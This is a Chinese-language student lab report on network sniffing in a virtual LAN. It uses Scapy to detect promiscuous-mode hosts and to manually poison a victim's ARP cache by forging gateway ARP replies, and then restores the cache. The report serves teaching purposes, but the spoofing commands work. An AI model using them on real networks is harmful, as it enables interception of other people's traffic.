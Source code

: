 # 实验四 网络监听
## 网络拓扑图：
![](img/1.png)
1. 网关ip地址和mac地址如下：
   ![](img/13.png)
   - ip:172.16.111.1
2. 攻击者ip地址和mac地址如下：
   ![](img/2.png)
   - ip:172.16.111.115
3. 受害者主机ip地址和mac地址如下：
   ![](img/6.png)
   - ip:172.16.111.121

## 实验前环境配置
在攻击者主机上提前安装好 scapy 
`sudo apt update && sudo apt install python3 python3-pip`
![](img/3.png)
`pip3 install scapy[complete]`
![](img/4.png)

## 实验步骤
### 实验一：检测局域网中的异常终端
在受害者主机上检查网卡的「混杂模式」是否启用
`ip link show enp0s3`
![](img/5.png)

​ 在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行
`pkt = promiscping("172.16.111.101")`
结果如下
![](img/7.png)

​ 显然这是错误的，查阅资料得知此操作需要root权限，退出scapy并sudo scapy进入，重新键入代码得到结果：
![](img/8.png)

回到受害者主机上开启网卡的『混杂模式』

注意上述输出结果里应该没有出现 PROMISC 字符串

手动开启该网卡的「混杂模式」

`sudo ip link set enp0s3 promisc on`
![](img/9.png)
此时会发现输出结果里多出来了 PROMISC 
`p link show enp0s3`
```
enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```
回到攻击者主机上的 scapy 交互式终端继续执行命令,观察两次命令的输出结果差异
`pkt = promiscping("192.168.0.102")`
结果如下
```
>>> pkt = promiscping("172.16.111.121")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
```
在受害者主机上,手动关闭该网卡的「混杂模式」
`sudo ip link set enp0s3 promisc off`

### 实验二：手工单步“毒化”目标主机的 ARP 缓存
以下代码在攻击者主机上的 scapy 交互式终端完成。
```
获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
查看构造好的 ARP 请求报文详情
arpbroadcast.show()
结果如下：
![](img/11.png)

发送这个 ARP 广播请求
`recved = srp(arpbroadcast, timeout=2)`

![](img/12.png)

网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

伪造网关的 ARP 响应包

准备发送给受害者主机 172.16.111.121

ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:70:6a:d9")`
![](img/14.png)

发送上述伪造的 ARP 响应数据包到受害者主机
`sendp(arpspoofed)`

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
![](img/15.png)


回到攻击者主机上的 scapy 交互式终端继续执行命令。

恢复受害者主机的 ARP 缓存记录

伪装网关给受害者发送 ARP 响应

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:2a:4b:04", pdst="172.16.111.121", hwdst="08:00:27:aa:ff:3e")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。

在受害者主机上尝试 ping 网关

`ping 172.16.111.1`

静候几秒 ARP 缓存刷新成功，退出 ping

查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
`ip neigh`